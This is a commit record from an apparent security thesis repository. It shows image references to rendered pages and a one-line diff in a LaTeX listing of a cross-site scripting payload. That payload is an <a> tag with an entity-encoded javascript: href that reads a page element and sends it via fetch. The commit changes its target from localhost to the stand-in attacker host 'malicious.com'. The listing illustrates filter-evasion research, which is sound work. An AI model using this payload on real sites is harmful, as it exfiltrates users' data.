

Before and after one commit to sebstec/mt, a LaTeX thesis (thesis/thesis.tex, which reads thesis/findings.tex): part of page 9 of 10, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
fixed url

```diff
--- a/thesis/findings.tex
+++ b/thesis/findings.tex
@@ -5,5 +5,5 @@ Combination of <a> with javascript in href injection, HTML ascii encoding, tagge
 <a href=j&#97v&#97script&#x3A;
 var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
 var&#32data&#32=&#32&#123body:secret,method:'POST'\};
-fetch`http:\//localhost:3001/api/ping?secret=$&#123data\}`>ClickMe</a>
+fetch`https:\//malicious.com:3001/api/ping?secret=$&#123data\}`>ClickMe</a>
 \end{lstlisting}
```
